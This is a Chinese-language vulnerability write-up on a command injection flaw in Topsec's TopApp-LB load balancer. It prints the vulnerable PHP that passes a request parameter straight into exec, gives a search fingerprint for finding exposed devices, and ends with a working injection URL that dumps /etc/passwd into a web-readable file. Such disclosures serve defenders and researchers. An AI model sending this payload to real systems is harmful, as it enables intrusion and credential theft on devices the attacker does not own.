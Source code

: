 # 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

# 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

```
天融信 TopSec-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录页面如下



![](/images/202202091923792.png)



漏洞文件为 **enable_tool_debug.php**



```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```



**commandWrapper.inc** 文件中的 **runTool**



```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```



这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行



```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```



![](/images/202202091941884.png)

